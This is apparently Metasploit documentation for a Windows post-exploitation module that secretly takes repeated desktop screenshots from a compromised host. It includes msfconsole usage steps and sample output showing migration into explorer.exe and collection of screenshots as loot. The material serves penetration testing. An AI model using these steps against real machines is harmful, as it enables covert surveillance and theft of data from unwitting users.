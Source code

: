## Vulnerable Application

This module will incrementally take desktop screenshots from the
host. This allows for screen spying which can be useful to determine
if there is an active user on a machine, or to record the screen for
later data extraction.

Note: As of March, 2014, the `VIEW_CMD` option
has been removed in favor of the Boolean `VIEW_SCREENSHOTS` option,
which will control if (but not how) the collected screenshots will
be viewed from the Metasploit interface.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/screen_spy```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **SESSION**

  The session to run the module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49184) at 201 9-12-12 14:55:42 -0700


  msf > use post/windows/gather/screen_spy
  msf post(windows/gather/screen_spy) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/screen_spy) > run

    [*] Migrating to explorer.exe pid: 1908
    [+] Migration successful
    [*] Capturing 6 screenshots with a delay of 5 seconds
    [*] Screen Spying Complete
    [*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot
    [*] Post module execution completed
  ```
